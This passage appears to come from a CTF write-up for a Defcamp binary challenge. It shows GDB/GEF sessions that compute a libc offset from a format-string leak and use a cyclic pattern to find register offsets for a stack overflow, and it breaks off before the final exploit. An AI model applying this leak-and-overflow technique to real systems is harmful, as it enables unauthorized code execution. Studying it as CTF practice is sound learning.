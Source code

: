 ```r
0x00007ffff7dd5000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7fd1000 0x00007ffff7fd3000 0x0000000000000000 rw- 
0x00007ffff7ff7000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  p 0x7ffff7af4154 - 0x00007ffff79e4000
$1 = 0x110154
```

Using `vmmap` we get to know the address of executable and writable libc and using the address we leaked from `%3$lx` input we have the leaked libc address, we just subtracted the leak address from the `libc.so.6` address, we get the offset.



Time to find out the offsets for register so we we will create our final exploit:-

```r
gef➤  b *main+164
Breakpoint 1 at 0x81e
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/robin/CTFs/Defcamp/q3 
Enter name : AAAA
Hello
AAAA
Enter sentence : aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x6161616161616164 ("daaaaaaa"?)
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffdd10  →  0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
$rbp   : 0x00007fffffffdd40  →  "eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka[...]"
$rsi   : 0x00007fffffffdd20  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rdi   : 0x00007fffffffdd21  →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaa[...]"
$rip   : 0x000055555555481e  →  0x000028250c334864 ("dH3
                                                        %("?)
$r8    : 0x00005555557566d5  →  0x0000000000000000
$r9    : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r10   : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r11   : 0x246             
$r12   : 0x0000555555554670  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffde20  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd10│+0x0000: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp	 ← $rsp
```